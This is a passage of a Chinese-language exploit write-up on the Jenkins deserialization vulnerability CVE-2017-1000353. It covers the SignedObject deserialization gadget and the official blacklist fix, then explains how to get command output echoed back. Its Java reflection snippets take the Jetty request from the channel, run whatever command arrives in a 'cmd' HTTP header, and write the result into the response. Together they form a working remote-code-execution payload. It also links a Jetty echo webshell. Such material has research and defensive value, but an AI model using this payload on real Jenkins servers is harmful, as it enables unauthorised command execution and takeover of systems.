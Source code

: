 ## SignedObject类

在`SignedObject`类的构造方法中传入了一个Serializable类型对象，并将其序列化并保存到了`content`属性中，在`SignedObject`的`getObject()`方法中对`content`进行了反序列化操作。

[![pCdb5zF.png](https://s1.ax1x.com/2023/06/28/pCdb5zF.png)](https://imgse.com/i/pCdb5zF)

[![pCdboM4.png](https://s1.ax1x.com/2023/06/28/pCdboM4.png)](https://imgse.com/i/pCdboM4)

## 漏洞修复

官方的修复方式是将`SingedObejct`类加入了黑名单。

[![pCdbbZR.png](https://s1.ax1x.com/2023/06/28/pCdbbZR.png)](https://imgse.com/i/pCdbbZR)

 # 回显利用

上面我们已经绕过了CC链的黑名单限制，这时，我们就需要思考如何进行漏洞的利用效果，市面上的主流工具如vulhub给出的利用方式是通过jar包生成执行系统命令的序列化对象，但利用过程比较繁琐，无法便捷有效的展示漏洞利用效果。

针对jenkins的http请求和servlet的处理是基于jetty服务器实现的，在jetty服务器的回显马 [jetty789Echo.jsp](https://github.com/feihong-cs/Java-Rce-Echo/blob/master/Jetty/code/jetty789Echo.jsp) 中给出了jetty的两种回显方式。由于CVE-2017-1000353漏洞在利用过程中创建了channel的特性，并将漏洞的download和upload类型的http请求传入了进去。这时我们就可以通过反射获取这个channel中的http属性，并通过传入http消息头中的某些字段进行读取传入的命令内容将其执行，并将执行结果在写入到响应包中，这样就完成了整个回显过程。

反射获取`channel`对象中的`underlyingOutput`属性

```java
Field underlyingOutputField = channel.getClass().getDeclaredField("underlyingOutput");
underlyingOutputField.setAccessible(true);
Object underlyingOutput = underlyingOutputField.get(channel);
Object httpConnection;
```

在`underlyingOutput`属性的`_channel`和`this$0`的属性中保存了http请求响应的相关信息，通过反射获取`_channel`和`this$0`的属性并赋值给`httpConnection`对象

```java
try{
  Field _channelField = underlyingOutput.getClass().getDeclaredField("_channel");
  _channelField.setAccessible(true);
  httpConnection = _channelField.get(underlyingOutput);
  	}catch (Exception e){
  Field connectionField = underlyingOutput.getClass().getDeclaredField("this$0");
  connectionField.setAccessible(true);
  httpConnection = connectionField.get(underlyingOutput);
}
```

获取到http信息后，再通过反射获取请求头中的命令执行cmd字段的值，并将其执行，写入到响应中。

```java
Object request = httpConnection.getClass().getMethod("getRequest").invoke(httpConnection);
Object response = httpConnection.getClass().getMethod("getResponse").invoke(httpConnection);
String cmd = (String) request.getClass().getMethod("getHeader", String.class).invoke(request, "cmd");
OutputStream outputStream = (OutputStream)response.getClass().getMethod("getOutputStream").invoke(response);
String result = "\n"+exec(cmd);
outputStream.write(result.getBytes());
outputStream.flush();
```
